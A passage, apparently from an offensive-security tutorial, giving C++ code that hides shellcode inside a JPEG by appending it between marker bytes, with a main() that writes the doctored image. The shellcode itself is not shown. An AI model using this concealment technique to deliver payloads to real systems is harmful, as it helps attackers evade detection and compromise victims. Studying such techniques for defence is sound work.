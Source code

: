 ```cpp
```

Next, we need a function to open the JPEG image, insert our beginning marker, shellcode, and ending marker and write that to an output JPEG image.

```cpp
// Function to embed shellcode in a JPEG file
bool EmbedShellcodeInJPEG(const std::string& jpegPath, const std::string& outputPath) {
    // Read the JPEG file
    std::ifstream jpegFile(jpegPath, std::ios::binary);
    if (!jpegFile) {
        std::cerr << "Failed to open JPEG file!" << std::endl;
        return false;
    }
    std::vector<unsigned char> jpegData((std::istreambuf_iterator<char>(jpegFile)), std::istreambuf_iterator<char>());
    jpegFile.close();

    // Append the beginning marker
    jpegData.insert(jpegData.end(), BEGIN_MARKER.begin(), BEGIN_MARKER.end());

    // Append the shellcode
    jpegData.insert(jpegData.end(), std::begin(shellcode), std::end(shellcode));

    // Append the ending marker
    jpegData.insert(jpegData.end(), END_MARKER.begin(), END_MARKER.end());

    // Write the modified data to the output file
    std::ofstream outputFile(outputPath, std::ios::binary);
    if (!outputFile) {
        std::cerr << "Failed to open output file!" << std::endl;
        return false;
    }
    outputFile.write(reinterpret_cast<const char*>(jpegData.data()), jpegData.size());
    outputFile.close();

    std::cout << "Shellcode embedded successfully!" << std::endl;
    return true;
}
```

And finally, our `main()` function that calls our `EmbedShellcodeInJPEG()` function and writes the new image, with the shellcode concealed within the image, to a file.

```cpp
int main() {
    std::string jpegFilePath = "c:\\users\\public\\stego.jpg";         // Path to the input JPEG file
    std::string outputFilePath = "c:\\users\\public\\output.jpg";      // Path for the output JPEG with embedded shellcode

    // Embed shellcode in JPEG
    if (!EmbedShellcodeInJPEG(jpegFilePath, outputFilePath)) {
        return 1;
    }

    return 0;
}
```
